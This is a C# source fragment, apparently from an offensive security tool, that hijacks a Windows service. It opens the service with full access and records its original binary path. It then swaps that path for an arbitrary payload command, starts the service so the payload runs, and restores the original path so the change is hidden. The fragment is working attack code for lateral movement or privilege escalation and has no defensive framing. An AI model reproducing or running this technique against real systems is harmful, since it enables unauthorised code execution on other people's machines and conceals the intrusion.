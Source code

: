 ```cs
            IntPtr hService = OpenService(
                SCMHandle,
                svcName,
                0xF01FF); // SERVICE_ALL_ACCESS

            UInt32 bytesNeeded;
            bool res = QueryServiceConfig(hService, IntPtr.Zero, 0, out bytesNeeded);
            IntPtr ptr = Marshal.AllocHGlobal((int)bytesNeeded);
            res = QueryServiceConfig(hService, ptr, bytesNeeded, out bytesNeeded);
            QueryServiceConfigStruct qsc = new QueryServiceConfigStruct();
            Marshal.PtrToStructure(ptr, qsc);
            string origBinaryPath = qsc.lpBinaryPathName;
            Console.WriteLine($"[*] Extracted original service binary: \"{origBinaryPath}\"");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                payload,
                null,
                null,
                null,
                null,
                null,
                null);

            if (res)
            {
                Console.WriteLine("[+] Service binary changed successfully!");
            }
            else
            {
                Console.WriteLine($"[-] Failed changing service binary: {GetLastError()}");
            }

            res = StartService(hService, 0, null);
            Console.WriteLine($"[*] StartService terminated with return code {res} and error {GetLastError()}");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                origBinaryPath,
                null,
                null,
                null,
                null,
                null,
                null);

            if (res)
            {
                Console.WriteLine("[+] Original service binary restored successfully!");
            }
            else
            {
                Console.WriteLine($"[-] Failed restoring original service binary: {GetLastError()}");
            }
        }
```